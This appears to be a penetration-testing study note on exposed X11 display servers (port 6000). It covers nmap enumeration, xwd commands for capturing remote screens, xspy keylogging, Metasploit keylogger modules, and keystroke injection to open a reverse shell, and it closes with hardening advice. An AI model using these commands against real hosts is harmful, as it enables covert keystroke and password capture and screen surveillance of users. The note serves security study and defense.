

# 23 - X11 (Port 6000) Pentesting

## 1. Executive Summary

X11 is the classic Unix/Linux graphical display server. When a host exports its display over the network it listens on **TCP 6000** (display `:0`; `:1` → 6001, etc.). The danger is **access control**: if the server allows remote clients (`xhost +`, or a missing/leaked MIT-MAGIC-COOKIE), any attacker on the network can connect to the display and treat it as their own — **logging every keystroke**, **screenshotting the desktop**, and **injecting input**. It turns a remote desktop into a fully observable, controllable session.

## 2. Protocol Overview & Architecture

In X11 the **server** is the machine with the screen/keyboard; **clients** are the applications. Access control is enforced either host-based (`xhost`, weak) or cookie-based (`xauth` MIT-MAGIC-COOKIE-1, stronger). A permissive `xhost +` disables checks entirely. Once a client is authorized it can read the framebuffer and the input event stream — there is no per-application isolation in legacy X.

## 3. Enumeration & Footprinting

```bash
# Is the display open to us?
nmap -sV --script x11-access -p 6000-6005 <IP>
# x11-access reports "X server access is granted" when unauthenticated
```

## 4. Exploitation Deep Dive

### 4.1 Confirm Open Access
`x11-access` returning *granted* means you can connect with no cookie.

### 4.2 Screenshot the Remote Desktop
```bash
xwd -root -screen -silent -display <IP>:0 > screenshot.xwd
convert screenshot.xwd screenshot.png    # view what the user sees
```

### 4.3 Keylogging
```bash
xspy <IP>:0          # streams keystrokes typed on the remote display
# Modern alternative: xspy / xkey / custom XQueryKeymap loops
```

### 4.4 Input Injection / Shell
With display access you can launch GUI apps or inject keystrokes (e.g. open a terminal and type a reverse shell). Metasploit's `auxiliary/gather/x11_keyboard_dump` / `multi/x11/x11_keylogger` automate capture.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Captured keystrokes include passwords typed into any window.
- Screenshots reveal open documents, terminals, credentials.
- A stolen `~/.Xauthority` cookie grants access even when host-based control is off.

## 7. Defense & Hardening
1. Never use `xhost +`; rely on `xauth` cookies and keep `~/.Xauthority` protected.
2. Disable TCP listening (`-nolisten tcp`, default on modern distros); tunnel X over SSH (`ssh -X`).
3. Firewall 6000-60xx; prefer Wayland where possible.

## 8. Chaining Opportunities
- Injected xterm → reverse shell → **[[08 - Linux Privilege Escalation]]**.
- Keylogged credentials → SSH/service reuse.

## 9. Related Notes
- [[21 - VNC (Ports 5900-5901) Pentesting]]
- [[30 - X11 — Exposed Display Server]]

## 10. Tools
`nmap` x11-access, `xwd`, `xspy`, `xdotool`, `metasploit` x11 modules.
